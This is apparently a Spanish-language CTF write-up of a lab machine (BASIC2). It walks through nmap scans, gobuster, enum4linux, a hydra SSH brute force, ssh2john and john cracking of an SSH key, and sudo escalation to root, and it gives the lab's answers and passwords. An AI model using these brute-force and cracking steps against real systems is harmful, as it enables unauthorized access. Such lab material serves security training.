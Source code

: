 In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

Empezamos con un scan a todos los puertos:

``` bash
sudo nmap -p- -Pn --min-rate 5000 10.10.32.85
```

``` bash
Nmap scan report for 10.10.32.85
Host is up (0.051s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

obtenemos varios puertos abiertos, escaneamos cada puerto para que nmap nos de las versiones de los servicios y haga scripts por defecto para enumerar los servicios:

1. **Find the services exposed by the machine:** 

``` bash
sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.32.85
```

``` shell
Nmap scan report for 10.10.32.85
Host is up (0.048s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2024-05-12T12:02:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-05-12T16:02:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s

```

enumeramos el servicio http para la primera respuesta de la maquina:

2. **What is the name of the hidden directory on the web server(enter name without /)?**

usaremos gobuster  para enumerar los directorios web:

``` bash
gobuster dir -u 10.10.32.85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster-basicpentesting.png](img/gobuster-basicpentesting.png)

la respuesta es: **development**


en el directorio development encontraremos un idexado de archivos 

![IndexDirBasicPents.png](/img/IndexDirBasicPents.png)

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Aqui podemos deducir que hay dos ususarios, por ahora J y K y que J tiene una paswor debil, por lo que vamos a usar fuerza bruta en el servicio ssh con hydra.

**User brute-forcing to find the username & password**

**What is the username?**

Enumeraremos el servicio SAMBA con enum4linux:

``` bash
enum4linux <IP-TARGET>
```

y obtenemos el domain name:
``` bash
Domain Name: WORKGROUP
```

y los usuarios :
``` bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

a acontinucion usamos hydra para hacer fuerza bruta con el ussuario Jan en el servicio ssh ya que en el mensaje que encontramos en el directorio development sabemos que tien una pass debil.

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.32.85
```

y tras un largo cafe obtenemos la password
![passBasicPents.png](/img/passBasicPents.png)
 la respuesta es: **armando**


Entramos al servicio ssh como jan y tras recorrer las capretas de ususario entramos a la carpeta de kay y vemos esto

![dirKayBPENTS.png](/img/dirKayBPENTS.png)

entramos en la carpeta .ssh y vemos el id_rsa de kay

![is_rsaBSPENTS.png](/img/is_rsaBSPENTS.png)

asi que suaremos la herramienta john para obtener la contraseña del id_rsa, primero nos creamos un archivo pegando todo el id_rsa y con ssh2john hasheamos el id_rsa.

``` bash
nano kay_id_rsa
# copiamos dentro del nano el texto del id_rsa
ssh2john kay_id_rsa > hashjohn.txt
# despues usamos john para crackear la contraseña
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashjohn.txt
```

![kayHash.png](/img/kayHash.png)

y obtenemos la contraseña: **beeswax**

entramos al ssh de kay usando su id_rsa:

![sshKay.png](/img/sshKay.png)

nos vamos al home de kay y leemos el archivo pass.bak, con esto obtenemos la ultima pregunta :
**What is the final password you obtain?**

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
```

con esto ya estaria la maquina hecho pero vamos a hacernos root, con el ususario de kay hacemos un sudo -l para ver los permisos sudo que tenemos, ponemos la contraseña anteriormente encontrada y obtenemos esto

![PrivKay.png](/img/PrivKay.png)

tenemos permisos para todo, así que para ser ususario root lo tenemos que hacer el cambio de ususario :

```
sudo -su root
```

y obtenemos root:
![kayRoot.png](/img/kayRoot.png)

y ya estaría la maquina completamente vulnerada.

